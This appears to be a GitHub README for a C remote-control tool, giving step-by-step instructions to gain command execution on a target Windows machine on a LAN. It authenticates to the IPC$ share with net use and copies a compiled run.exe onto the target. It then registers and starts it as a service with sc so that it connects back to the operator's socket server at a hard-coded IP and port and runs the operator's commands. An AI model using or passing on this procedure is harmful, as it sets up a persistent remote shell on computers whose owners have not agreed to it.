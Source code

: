 # It's a simple tool to use IPC in LAN to remote conrtol
## How to use:
- First, we need to know our **IP** in our LAN. Useing the command **<code>ipconfig</code>** in our cmd.exe
- Then, edit the **IP** in the <code>
struct sockaddr_in serverAddr;
serverAddr.sin_family = AF_INET;
serverAddr.sin_addr.s_addr = inet_addr **("192.168.123.7")**; //Write your IP there
serverAddr.sin_port = htons(8888);</code>
- Third, use **<code>net use \\IP\ipc$ "password" /user:"target computer user"</code>** command in your cmd.exe to connect IPC to your target computer. [click here to learn more](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/gg651155(v=ws.11))
- Then, use **<code>dir \\IP\c$</code>** to make sure we hav sufficient permissions to make a Windwos Service in the target computer. If we can, change our code like second step in the **run.c**. Next, we need to use **<code>g++ -o run.exe run.c -lws2_32 -static</code>** command to make it as a .exe file.
- Next, use **<code>copy run.exe \\IP\\PATH</code>** tocopy it to yuor target computer. Then, use **<code>sc //IP create SERVICENAME binpath= "PATH"</code>** in our target. If it runs, run our **socket_server.c** and use **<code>sc \\IP start SERVICENAME</code>** to start Windows service in our target computer.
- Finally, if our **socket_c** shows *run* and can input something, input your cmd command which will run in your target computer.
